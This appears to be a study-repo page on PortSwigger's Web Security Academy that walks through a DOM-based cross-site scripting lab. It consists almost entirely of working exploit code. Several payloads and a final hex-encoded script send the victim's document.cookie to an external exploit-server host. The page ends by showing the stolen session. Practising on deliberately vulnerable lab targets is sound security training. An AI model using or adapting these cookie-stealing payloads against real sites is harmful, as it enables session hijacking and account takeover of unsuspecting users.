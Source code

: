 ## XSS-DOM-Procedure

## Check your session cookie:
```js
"-(window["document"]["location"]="/?"+window["document"]["cookie"])-"
```

## TEST Payload:
```js
burpdomxss","test":alert(window["document"]["cookie"])}//
```

## The Exploit before preparing:
```js
<script>
location='https://<CHANGE-HERE>.web-security-academy.net/?SearchTerm="-(window["document"]["location"]="https://exploit-<CHANGE-HERE>%2eexploit-server%2enet/?"+window["document"]["cookie"])-"';
</script>
```

## Before ENCODE the exploit `part` by using BurpSuite Decoder:
```js
"-(window["document"]["location"]="https://exploit-0af4008003a936d2c1563c1001a30084%2eexploit-server%2enet/?"+window["document"]["cookie"])-"
```
## ENCODE the exploit:
![](https://github.com/nu11secur1ty/PortSwigger-Web-Security-Academy/blob/main/Burp-Suite-Certified-Practitioner/docs/XSS-DOM-Procedure/Encode.png)

## THE ACTUAL EXPLOIT:
```js
<script>
location='https://0a3200d2032c36d2c1163a22005f00df.web-security-academy.net/?SearchTerm=%22%2d%28%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%6c%6f%63%61%74%69%6f%6e%22%5d%3d%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%34%30%30%38%30%30%33%61%39%33%36%64%32%63%31%35%36%33%63%31%30%30%31%61%33%30%30%38%34%25%32%65%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%25%32%65%6e%65%74%2f%3f%22%2b%77%69%6e%64%6f%77%5b%22%64%6f%63%75%6d%65%6e%74%22%5d%5b%22%63%6f%6f%6b%69%65%22%5d%29%2d%22';
</script>
```
## The stolen session:
![](https://github.com/nu11secur1ty/PortSwigger-Web-Security-Academy/blob/main/Burp-Suite-Certified-Practitioner/docs/XSS-DOM-Procedure/XSS-Payload.png)
